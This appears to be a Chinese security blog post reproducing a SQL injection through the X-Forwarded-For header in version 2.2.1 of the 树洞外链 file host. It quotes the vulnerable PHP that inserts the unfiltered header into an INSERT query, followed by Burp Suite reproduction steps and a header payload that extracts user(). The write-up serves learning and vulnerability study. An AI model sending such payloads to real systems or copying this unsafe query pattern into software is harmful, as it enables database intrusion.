 ```yaml
---
title: 树洞外链X_FORWARDED_FOR注入漏洞复现
date: 2019-07-25 14:20:00
author: dylan
top: false
cover: false
password: 
categories: Information Security
tags: 
    - 漏洞
    - 复现
    - 树洞外链
---
```

# 一、漏洞详情
树洞外链现在已经停止更新，作者又开发了[Cloudreve](https://github.com/cloudreve/Cloudreve)，有兴趣可以了解一下。
回归正题，虽然树洞已经停止更新了，还是可以做一些研究学习。
树洞外链存在X_FORWARDED_FOR注入漏洞，最新版本的已经修复了，2.2.1版本的可以复现。

***
# 二、漏洞分析
在`/includes/function.php`的37行左右，获取了X_FORWARDED_FOR，并未做防注入过滤 
```
function get_real_ip(){
$ip=false;
if(!empty($_SERVER["HTTP_CLIENT_IP"])){
$ip = $_SERVER["HTTP_CLIENT_IP"];
}
if (!empty($_SERVER['HTTP_X_FORWARDED_FOR'])) {
$ips = explode (", ", $_SERVER['HTTP_X_FORWARDED_FOR']);
if ($ip) { array_unshift($ips, $ip); $ip = FALSE; }
for ($i = 0; $i < count($ips); $i++) {
if (!eregi ("^(10|172\.16|192\.168)\.", $ips[$i])) {
$ip = $ips[$i];
break;
}
}
}
return ($ip ? $ip : $_SERVER['REMOTE_ADDR']);
}
```
然后在`includes/save.php`  20行左右发现调用`get_real_ip()`函数
```
$ip=get_real_ip();
$dd=date('Y-m-d H:i:s');
$rand = md5(time() . mt_rand(0,1000));
$stmt = $con->prepare("INSERT INTO  `$sqlname`.`sd_file` (`ming` ,`key1` ,`uploadip` ,`uploadtime` ,`cishuo` ,`upuser` ,`policyid`)VALUES (?, '$rand', '$ip', '$dd', '0' , '$uploadUser', '$policyId');");

$stmt->bind_param('s', $ming);
```

***
# 三、漏洞复现
下载树洞外链源码，本地搭建环境。
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190726110921.png)

注册账号登陆，然后打开burpsuite，关掉拦截
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190726111147.png)
然后上传文件，在HTTP history里找到`/includes/save.php`,发送到Repeater
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190726111306.png)
构造payload并发送
```
X-Forwarded-For: 1.1.1.1′,user(),’0′,1,1); #

ming=aa
```
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190726111644.png)

然后在**我的文件**里面可以看到执行结果
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190726111744.png)

***
# 参考文章
[代码审计树洞X_FORWARDED_FOR注入](https://www.freebuf.com/column/179363.html)
[代码审计之头部注入X-Forwarded-For](https://blog.csdn.net/qq_21510303/article/details/91886405)